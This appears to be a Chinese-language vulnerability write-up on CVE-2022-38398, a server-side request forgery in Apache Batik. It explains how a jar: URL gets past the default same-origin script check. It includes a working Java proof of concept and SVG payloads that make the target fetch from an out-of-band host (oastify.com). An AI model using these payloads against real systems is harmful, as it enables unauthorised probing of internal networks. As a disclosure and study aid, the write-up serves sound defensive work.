




# CVE-2022-38398 Apache XML Graphics Batik SSRF
## 影响版本
< 1.15
## 环境搭建
https://xmlgraphics.apache.org/batik/download.html
## 原理分析
### Apache Batik 安全沙箱
Apache Batik库可以处理svg格式的文件并将其转换为其它图片格式(jpg,jpeg,...).
而svg文件中的图片是可以通过xlink标签从指定外部地址加载资源的,这就很容易造成ssrf漏洞.  
```svg
<image width="50" height="50" xlink:href="http://3fj8qpfpj9qcw00noj82rd021t7jv8.oastify.com/1.jpg/"></image>
```  
而在Apache Batik中也有对应的安全沙盒来控制svg文件中的脚本执行.  
https://xmlgraphics.apache.org/batik/using/scripting/security.html  
主要有以下四种情况:
* NoLoadScriptSecurity : 禁止执行任何脚本.
* EmbededScriptSecurity :  文档中嵌入的脚本在被适当引用时可以执行.
* DefaultScriptSecurity(默认情况) : 如果嵌入的脚本来源和引用脚本的文档是同一个来源时可以执行.
* RelaxedScriptSecurity : 任意脚本都可以执行
### 默认策略绕过
在默认情况下,只有同源的脚本才能被执行,比如以下几种情况:
1. 加载本地的svg文件时,只能加载在路径在本地的脚本,不能加载远程地址的脚本.
2. 通过http路径加载svg文件时,也只能加载同一个host服务器上的脚本.  

在`package org.apache.batik.bridge.DefaultScriptSecurity`可以看到其实现的原理.   
  
当脚本路径为本地文件时,比如`file:///tmp/1.jpg`,其获得的host则为null.  
  
同样的从InputStream流创建的docurl的Host也是null.  
看起来这样即限制了只能同源脚本的执行.  
但是在java中还有一种协议`jar`,jar协议可以用来建立一个访问其它路径jar包的连接.  
  
可以发现jar协议的URI路径获得的host也为null,这就导致docurl和scripturl的host都为null,也就是说我们可以绕过同源的限制,利用jar协议去请求任意地址.
## 漏洞复现
jar协议格式:  
jar协议的格式如：jar:{archive-url}!/{entry}。 
archive-url是文件地址  
!/是分隔符  
entry是jar包内部的目录或者文件  

poc:
```java
import org.apache.batik.transcoder.TranscoderException;
import org.apache.batik.transcoder.TranscoderInput;
import org.apache.batik.transcoder.TranscoderOutput;
import org.apache.batik.transcoder.image.JPEGTranscoder;

import java.io.*;

public class cve_2022_38398 {
    public static void main(String[] args) throws IOException, TranscoderException {
        String svg = "<svg xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" width=\"450\" height=\"500\" viewBox=\"0 0 450 500\">\n" +
                "    <image width=\"50\" height=\"50\" xlink:href=\"jar:http://gbvj631zwa8yh8ch6y0w2uxxiooec3.oastify.com/poc?poc=cve_2022_38398!/\"></image>\n" +
                "</svg>";
        JPEGTranscoder t = new JPEGTranscoder();
        byte[] svgbytes = svg.getBytes();
        TranscoderInput input = new TranscoderInput(new ByteArrayInputStream(svgbytes));
        OutputStream outputStream = new FileOutputStream("test.jpg");
        TranscoderOutput transcoderOutput = new TranscoderOutput(outputStream);
        t.transcode(input,transcoderOutput);
        outputStream.flush();
        outputStream.close();

    }
}
```

## 补丁  
校验了协议只能为data.  

## 参考资料
https://www.zerodayinitiative.com/blog/2022/10/28/vulnerabilities-in-apache-batik-default-security-controls-ssrf-and-rce-through-remote-class-loading
